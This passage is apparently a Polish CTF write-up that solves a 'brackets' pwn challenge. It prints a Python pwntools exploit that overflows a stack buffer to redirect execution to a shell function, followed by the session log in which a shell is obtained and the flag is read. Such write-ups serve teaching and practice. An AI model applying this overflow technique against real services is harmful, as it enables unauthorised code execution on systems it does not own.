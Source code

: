 
Exploit napisałem w języku Python wykorzystując niestandardowy moduł `pwntools`, a jego kod wygląda następująco:

```python
#!/usr/bin/env python
#coding utf8

from pwn import *

host = 'pwning2016.p4.team'
port = 1337

r = remote(host, port)
#r = process('./brackets')
#print r.proc.pid
#pause()

shell_me_addr = elf.ELF('./brackets').functions['shell_me'].address

payload = '.' * 112             # buf
payload += p64(0)               # ptr
payload += p32(0)               # gap / przerwa 4B
payload += p32(0)               # missing brackets
payload += p64(0)               # saved rbp
payload += p64(shell_me_addr)   # saved rip

r.send(payload)

r.interactive()
```

Co pozwoliło na zdobycie flagi:

```
dc@dc:/media/sf_D_DRIVE/p4/pwn150$ python crack.py
[+] Opening connection to pwning2016.p4.team on port 1337: Done
[*] '/media/sf_D_DRIVE/p4/pwn150/brackets'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
[*] Switching to interactive mode
Enter expression to check:
................................................................................................................^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@�^E@^@^@^@^@^

$ ls
ls
brackets  brackets.c  exploit.py  flag
$ cat flag
cat flag
pwn{b1n4ry_expl01t1ng}
$
[*] Closed connection to pwning2016.p4.team port 1337
```
